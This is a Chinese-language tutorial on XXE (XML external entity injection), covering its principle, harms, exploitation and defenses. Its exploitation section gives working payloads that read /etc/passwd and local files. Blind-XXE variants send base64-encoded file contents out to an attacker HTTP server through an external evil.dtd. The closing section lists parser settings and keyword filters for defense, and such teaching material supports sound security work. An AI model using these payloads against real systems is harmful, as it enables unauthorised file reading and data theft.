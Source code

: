 ## XXE漏洞原理
XXE漏洞也叫XML外部实体注入。由于没有禁止外部实体的加载,攻击者可以加载恶意外部文件，而应用程序解析输入的XML数据时,解析了攻击者伪造的外部实体导致产生XML漏洞。

## XXE漏洞的危害
（1）读取任意文件</br>
（2）执行系统命令</br>
（3）内网端口扫描</br>
（4）攻击内网其他网站

## XXE漏洞的利用
一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到payload的执行结果或现象，无回显的情况又称为blind xxe，可以使用外带数据通道提取数据。
### （一）有回显的情况
**（1）直接通过DTD外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<abc>&test;</abc>
```
**（2）通过DTD文档引入外部DTD文档，再引入外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://localhost/evil.dtd">
<abc>&b;</abc>
evil.dtd内容：
<!ENTITY b SYSTEM "file:///etc/passwd">
```
**（3）通过DTD外部实体声明引入外部实体声明**</br>
XML内容如下:
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % d SYSTEM "http://localhost/evil.dtd">
%d;
]>
<abc>&b;</abc>
```
evil.dtd内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

### （二）无回显情况，又称blind xxe，使用外带数据通道提取数据
**（1）第一种无回显示payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd; %all;
]>
<abc>&send;</abc>
```
其中evil.xml文件内容为
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost%file;'>">
```
调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用实体send。

**（2）第二种无回显payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd;
%send;
]>
<abc></abc>
```
其中evil.xml文件内容为：
```
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```
调用过程和第一种方法类似，但最里层的嵌套里%要进行实体编码成%。无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。</br>
这里注意参数实体引用%file;必须放在外部文件里，因为根据这条规则 。在内部DTD里，参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则解析器会报错： PEReferences forbidden in internal subset。这里的internal subset指的是中括号[]内部的一系列元素声明，PEReferences 指的应该是参数实体引用 Parameter-Entity Reference 。</br>
一般都使用第二种方法，因为当文件中含有中文字符或<字符，会导致不能解析。

## XXE漏洞的防御
（1）禁用外部实体
```
//在php中，引用外部实体和libxml库有关系
//libxml > 2.9 默认不解析外部实体
libxml_disable_entity_loader(true);

//java:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

//python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
（2）过滤和验证用户提交的xml数据，防止出现非法内容；过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC等。
